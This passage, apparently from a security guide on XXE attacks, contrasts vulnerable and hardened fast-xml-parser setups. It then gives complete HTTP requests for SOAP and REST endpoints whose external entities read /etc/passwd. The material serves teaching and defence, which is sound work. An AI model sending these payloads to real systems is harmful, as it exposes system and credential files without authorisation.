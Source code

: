 **fast-xml-parser Vulnerabilities:**
```javascript
// VULNERABLE - Default settings allow XXE
const parser = require('fast-xml-parser');
const result = parser.parse(userXmlInput);

// SECURE - Configure to prevent XXE
const parser = require('fast-xml-parser');
const options = {
    parseNodeValue: true,
    parseAttributeValue: true,
    trimValues: true,
    // Disable external entity processing
    processEntities: false,
    // Validate XML structure
    allowBooleanAttributes: false
};

const result = parser.parse(userXmlInput, options);
```

## Web Service Specific XXE

### 1. SOAP Web Services

**SOAP XXE via Web Service:**
```xml
POST /webservice HTTP/1.1
Content-Type: text/xml; charset=utf-8
SOAPAction: "processData"

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE soap:Envelope [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <processData>
      <data>&xxe;</data>
    </processData>
  </soap:Body>
</soap:Envelope>
```

### 2. REST APIs with XML

**XML API Endpoint XXE:**
```http
POST /api/users HTTP/1.1
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
  <name>&xxe;</name>
  <email>test@example.com</email>
</user>
```
